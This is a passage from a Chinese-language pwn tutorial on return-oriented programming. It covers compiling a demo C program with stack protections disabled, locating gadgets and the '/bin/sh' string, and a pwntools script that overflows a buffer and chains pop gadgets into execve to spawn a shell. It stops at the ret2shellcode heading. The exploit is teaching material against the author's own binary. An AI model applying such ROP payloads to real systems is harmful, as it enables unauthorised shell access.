 ```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后我们用 ida 查找可执行汇编代码的地址（又称为 gadgets）以及 sh 字符串的地址，或者工具 ROPgadget

[![](assets/1705974052-2cb08ec1f818b58f33f8427d5b4b0413.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221545-66f58456-b79e-1.png)

[![](assets/1705974052-b80dee3f960250e898658e21047b6171.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221554-6c073de0-b79e-1.png)

随后在输入处构造 payload 即可

脚本：

```plain
from pwn import*

io = process('./text')
poprdi=0x4011b9
poprsi=0x4011c6
poprdx=0x4011d3
binsh=0x404038
execve=0x4011A5
payload = b'a'*(0x10+8)+p64(poprdi)+p64(binsh)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)+p64(execve)
io.sendline(payload)
io.interactive()
```

一些解释：

pop 指令是出栈，pop 后接寄存器即是将栈中的第一个 4/8 字节大小的数据从栈中放到对应寄存器中，payload 构造中可以在 pop 指令后接数据来控制对应寄存器的值

## 3.ret2shellcode

### shellcode？
